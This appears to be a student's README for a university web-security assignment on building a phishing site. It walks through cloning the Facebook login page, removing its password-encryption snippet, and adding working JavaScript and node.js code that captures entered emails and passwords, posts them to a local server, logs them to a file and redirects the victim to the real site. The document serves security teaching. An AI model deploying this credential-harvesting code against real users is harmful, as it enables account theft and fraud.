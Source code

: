## Assignment 7, CS 495/595 Web Security, Spring 2022

Due: 2022-05-02

Points available: 15

For this assignment, you will construct a phishing site that collects login information.

Relevant resources:

* [Complete Guide to Creating and Hosting a Phishing Page for Beginners](https://null-byte.wonderhowto.com/forum/complete-guide-creating-and-hosting-phishing-page-for-beginners-0187744/) -- note that this site's example code is in PHP, but you will do this in node.js.


### Create a simple phishing site (15 points)

Using one of your 100 web sites that offers logging in from the
previous assignments, modify the HTML and serve it from your own
node server on your machine to create a convincing phishing site.
You'll have to make sure all the images, Javascript, CSS, etc. are
all loaded from your local resources.  When the login button is
pushed, send the login information to your local node server and
record it in a log file.  Document and demonstrate the operation
of your phishing site with text, screen shots, and a Youtube video.

### Solution

##### Using one of your 100 web sites that offers logging in from the previous assignments
We select fb.com from our list. Below is the downloaded source code and a screenshot of the source code being rendered locally be Server.js.

![alt text](FacebookPic.png)
##### Modify the HTML
The following piece of code embedded in the downloaded html apparently encrypts anything pulled from the password field. Removing it allowed access to user entered password value:
```html
["LoginFormController","init",["__elem_835c633a_0_0_U5","__elem_45d73b5d_0_0_71"],[{"__m":"__elem_835c633a_0_0_U5"},{"__m":"__elem_45d73b5d_0_0_71"},null,true,{"pubKey":{"publicKey":"dfdd7eae82d3ccfb5ea3fcd5ff9294a34bf7cd58c7d8878265b0bdd47953803c","keyId":53}}]]
```

Below we add a callback method, myFunction, to the Login button to be called when clicked to acquire user credentials and post them to our server.

```html
<input type="hidden" autocomplete="off" name="next" value="" /><div class="_6ltg"><button value="1" class="_42ft _4jy0 _6lth _4jy6 _4jy1 selected _51sy" onclick="myFunction()" name="login" data-testid="royal_login_button" type="submit" id="u_0_d_Cm">
```

##### When the login button is pushed, send the login information to your local node server and record it in a log file.
The script that accomplished the acquisition of credentials is a simple client-side onClick() method that grabs the email and password fields and posts them in a request to our node server when login is pressed

```node 
<script>
    function myFunction() {
    var email2 = document.getElementById("email").value;
    var password2 = document.getElementById("pass").value;
    $.post("http://localhost:3000/login",{email: email2,password: password2}, function(data){
          });
    window.location.replace('https://www.facebook.com/login/?privacy_mutation_token=eyJ0eXBlIjowLCJjcmVhdGlvbl90aW1lIjoxNjUwODgwMDYzLCJjYWxsc2l0ZV9pZCI6MzgxMjI5MDc5NTc1OTQ2fQ%3D%3D');
    }
</script>
```

The post is recieved at the /login endpoint of the server and the information is logged into [UserInfo.txt]('UserInfo.txt') located at root.

```node
router.post("/login",(request,response) => {
    const obj = JSON.parse(JSON.stringify(request.body))
    fs.appendFileSync('UserInfo.txt', JSON.stringify(obj)+'\n');
});
```

##### YouTube Demo
[Demo](https://youtu.be/3JZVkC4-1oM)

### Extra credit (12 points)

Using Zphisher ([blog
post](https://www.securitynewspaper.com/2020/03/25/create-phishing-page-of-29-websites-in-minutes/),
[GitHub](https://github.com/htr-tech/zphisher), create and demonstrate
(screen shots, Youtube video) three phishing sites.

[EC1](https://youtu.be/2_Kc-jnl4C4)
[EC2](https://youtu.be/ezzqAVzfymU)
[EC3](https://youtu.be/p_qQmv8rgY0)

### Setting up directory "7"

All of the code, files, images, etc. necessary to complete this
assignment will be in directory ```7```.  The README.md for this
assignment will have links to the code, a short discussion of any
issues you encountered making the site "display" correctly from
your server, screen shots of the site rendered in your browser, and
the log file of harvested user names and passwords, and a Youtube
video of your site in operation.

